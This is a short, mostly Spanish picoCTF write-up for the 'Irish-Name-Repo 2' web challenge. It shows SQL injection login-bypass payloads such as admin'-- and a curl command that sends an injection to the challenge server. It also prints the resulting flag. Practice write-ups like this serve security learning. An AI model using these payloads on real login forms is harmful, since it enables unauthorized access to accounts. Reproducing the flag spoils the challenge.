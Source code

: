 # Irish-Name-Repo 2
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

- Hints: The password is being filtered.

## Solución

https://jupiter.challenges.picoctf.org/problem/64649/

### Web
- Parece muy similar al anterior, si probamos la misma inyección `' or 1==1;`, manda a error: `# SQLi detected.`
- Pero si probamos este bypass jala : `admin'--`
```
username: admin'--
password: pass
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='pass'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```

### Consola
```bash
curl https://jupiter.challenges.picoctf.org/problem/64649/login.php  -d "username=admin';&password=admin&debug=1"
<pre>username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>%   

```

## Notas adicionales
. instalar xclip
```bash
 | xclip -sel clip
```

## Referencias

